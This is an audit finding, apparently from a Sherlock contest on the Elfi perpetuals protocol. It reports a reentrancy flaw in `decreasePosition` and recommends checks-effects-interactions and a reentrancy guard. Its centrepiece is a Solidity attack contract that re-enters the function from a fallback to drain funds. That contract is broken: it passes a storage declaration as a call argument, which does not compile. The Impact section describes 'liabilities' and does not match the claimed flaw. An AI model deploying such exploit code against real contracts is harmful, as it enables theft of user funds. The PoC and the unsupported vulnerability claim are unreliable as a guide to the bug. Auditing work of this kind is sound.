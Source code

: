 Careful Canvas Bird

high

# `decreasePosition` function is vulnerable to reentrancy attacks

pwning_dev
# decreasePosition function is vulnerable to reentrancy attacks

## Summary
The decreasePosition function potentially contains a reentrancy vulnerability due to the external calls made to VaultProcess.transferOut within `_settleCrossAccount` and `_settleIsolateAccount`. These calls can transfer tokens out to an external address which could be a contract designed to reenter the decreasePosition function.



## Vulnerability Detail
- External calls to `VaultProcess.transferOut` in `_settleCrossAccount` and `_settleIsolateAccount` are made before the state changes are completed.
- This opens up the possibility of a reentrant call where the attacker could reenter the `decreasePosition` function and perform malicious actions, such as withdrawing funds multiple times.
## Proof of Concept (PoC):
An attacker can use a reentrancy attack to call `decreasePosition` recursively before the state variables are updated, causing inconsistencies and potential fund loss. Here's an example of how this attack could be structured:
```solidity
pragma solidity ^0.8.18;

import "DecreasePositionProcess.sol";

contract AttackContract {
    DecreasePositionProcess public target;
    uint256 public amount;
    address public owner;

    constructor(address _target) {
        target = DecreasePositionProcess(_target);
        owner = msg.sender;
    }

    function attack() external {
        require(msg.sender == owner, "Only owner can initiate the attack");

        // Initialize the attack by calling decreasePosition
        target.decreasePosition(
            // Pass appropriate parameters to match DecreasePositionParams structure
            Position.Props storage position,
            DecreasePositionProcess.DecreasePositionParams({
                requestId: 1,
                symbol: keccak256(abi.encodePacked("ETH/USD")),
                isLiquidation: false,
                isCrossMargin: false,
                marginToken: address(this),
                decreaseQty: 1 ether,
                executePrice: 2000 ether
            })
        );
    }

    // Fallback function to execute during reentrancy
    fallback() external payable {
        if (amount < 10 ether) {
            amount += 1 ether;

            // Recursively call decreasePosition to exploit the reentrancy vulnerability
            target.decreasePosition(
                Position.Props storage position,
                DecreasePositionProcess.DecreasePositionParams({
                    requestId: 1,
                    symbol: keccak256(abi.encodePacked("ETH/USD")),
                    isLiquidation: false,
                    isCrossMargin: false,
                    marginToken: address(this),
                    decreaseQty: 1 ether,
                    executePrice: 2000 ether
                })
            );
        }
    }
}

```

## Impact
Mishandling of liabilities could lead to incorrect calculations or inconsistencies in the contract state, potentially impacting user funds or contract functionality.

## Code Snippet
```solidity
function decreasePosition(Position.Props storage position, DecreasePositionParams calldata params) external {
    ...
    if (params.decreaseQty == position.qty) {
        accountProps.delPosition(
            Position.getPositionKey(position.account, position.symbol, position.marginToken, position.isCrossMargin)
        );
        position.reset();
    } else {
        ...
        position.lastUpdateTime = ChainUtils.currentTimestamp();
    }
    ...
}

```
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/process/DecreasePositionProcess.sol#L60C3-L139C1
## Tool used
Vs code
Manual Review

## Recommendation
- Use the Checks-Effects-Interactions Pattern:
Ensure that all state changes are made before any external calls. This prevents the contract state from being manipulated during external calls.

- Implement Reentrancy Guards:
Use the nonReentrant modifier from OpenZeppelin’s ReentrancyGuard to prevent reentrant calls.